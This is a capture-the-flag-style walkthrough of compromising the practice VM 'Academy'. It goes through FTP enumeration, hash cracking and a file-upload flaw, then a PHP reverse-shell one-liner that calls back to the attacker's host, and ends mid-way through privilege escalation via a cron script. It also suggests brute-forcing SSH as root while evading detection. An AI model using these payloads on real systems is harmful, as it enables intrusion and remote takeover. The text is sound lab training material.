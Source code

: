 First of all set up academy on your VM ware

![](https://i.imgur.com/sqlEL3g.png)

Now use the logs `root:tcm` and you should be logged in successfully, Once logged in you can use the command `dhclient` followed by `ip a` to check for machine ip address

![](https://i.imgur.com/oVlP40y.png)

Time to run our Nmap scan on targets, first of all directly SSH to the target using the host system to make things easier for us to interact with the Machine instead of clicking VM Ware always

![](https://i.imgur.com/cTGXvph.png)

![](https://i.imgur.com/aGx2Ruw.png)

If you have problems connecting, Make sure to set network to bridge then run `dhclient` before `ip a` 

Running our Nmap scan , Query `nmap -p- -sCV 192.168.0.108 -v --min-rate=1000 -T4 -oN nmap_academy.txt`

![](https://i.imgur.com/v6wqzFu.png)

## Enumeration

> Usually in CTF's we erase enumerating port 22/SSH out of the board, cos' we don't usually go through that route except we find a valid username and start brute forcing for passwords, But in real-world scenario, You should brute force ssh using `root` as username and seeing if the account uses a weak credential, also try to see if you can bypass detection, like trying to log in over 500 attempts without getting detected, that is a security risk you should add to your reports


**Starting with FTP** 

We have anonymous login on FTP, so let start out with that, Remember nmap told us we have `anonymous` login with a `note.txt`

![](https://i.imgur.com/SHmlC7f.png)

Checking what the note.txt has, give us this 

![](https://i.imgur.com/MRhguMj.png)

Nice !!!, `cd73502828457d15655bbd7a63fb0bc8` , looks like a password though "Learn SQL😆" , but stored in MD5, you can use `hash-identifier` to check it out in kali , soo we will be cracking it using `john-the-ripper`  

![](https://i.imgur.com/BeXT0EU.png)

We got the password which is `student` , we need to try it out somewhere so since we found port 80/HTTP , let check it out

![](https://i.imgur.com/5hsUFWn.png)

We have a default Apache web page, trying out directory bruteforce gives us `academy` and `phpmyadmin` 

![](https://i.imgur.com/jnxSiyX.png)

Checking out `/academy` we have a login page, using the credentials we got `10201321:student` we were successfully logged in

![](https://i.imgur.com/MX9LNyp.png)

Navigating the websites i found a file upload vulnerability on `/academy/my-profile.php`

![](https://i.imgur.com/ORgyyqB.png)

We can upload our PHP reverse shell file, Get one from https://www.revshells.com/ , save it in a file with the `.php` extension and upload it as an image file, but before we do that start a netcat listener with `nc -lvnp 1337` , then go ahead with uploading the PHP file 

![](https://i.imgur.com/iS3YC7v.png)

Now paste in your reverse shell payload on the execute bar, i will be using `php -r '$sock=fsockopen("192.168.0.157",1337);exec("/bin/bash <&3 >&3 2>&3");'` for my payload, after pasting these you should get a connection on your terminal

![](https://i.imgur.com/xG9ZJFD.png)

Great, we got shell back as `www-data` so we need to do privilege escalation 

![](https://i.imgur.com/BoFJmdz.png)

We will be using `Linpeas.sh` for this lab, you can transfer it to the target system by using python and wget , also make sure to grant executable permissions and run with `./linpeas.sh`

![](https://i.imgur.com/X80fXIh.png)

We found a `backup.sh` folder on the home user `grimmie` but don't have write access to the file,  let keep hunting 

![](https://i.imgur.com/v4Tg06s.png)

![](https://i.imgur.com/gDzx9tR.png)

We definitely need a way to pivot to `grimmie` cos' user `grimmie` has a file in it home directory running as cron job, so we need to pivot to `grimmie` first then root

![](https://i.imgur.com/BaM9Dzy.png)

Looks like we have stored passwords somewhere, With this we can definitely escalate to `grimmie`

![](https://i.imgur.com/AEgi8Jd.png)

Using the find command i looked for where this password is located inside a file `find /var -type f -exec grep -l "My_V3ryS3cur3_P4ss" {} \;` , it was located under the `/var/www/html/academy/admin/includes/config.php` file

![](https://i.imgur.com/kEPayI7.png)

![](https://i.imgur.com/RK5Jhcp.png)

We can login using SSH, once logged in we can escalate privileges using the `backup.sh` file by editing it

![](https://i.imgur.com/MNkh58n.png)

![](https://i.imgur.com/hS6S34A.png)

We can see that this file is removing a zipped backup file and then somehow unzipping it to `/../../../../include` then granting it `r-w-x` execute permissions, let edit this file, i would replace all this with a bash reverse shell

![](https://i.imgur.com/24ZRCpY.png)




